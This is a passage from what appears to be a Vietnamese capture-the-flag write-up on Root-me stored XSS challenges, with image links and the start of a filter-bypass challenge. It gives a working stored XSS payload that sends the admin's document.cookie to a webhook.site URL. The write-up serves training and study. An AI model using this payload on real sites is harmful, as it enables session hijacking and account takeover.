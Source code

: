 Tạo payload store ở phần comment để gửi cookie của admin về webhook:

payload: `"><script>document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)</script>`

![Store XSS 2.png](Images/Store_XSS_2.png)

## Root-me-5: [XSS - Stored - filter bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)

Thử truyền payload cơ bản

![image.png](Images/image%2015.png)

![image.png](Images/image%2016.png)

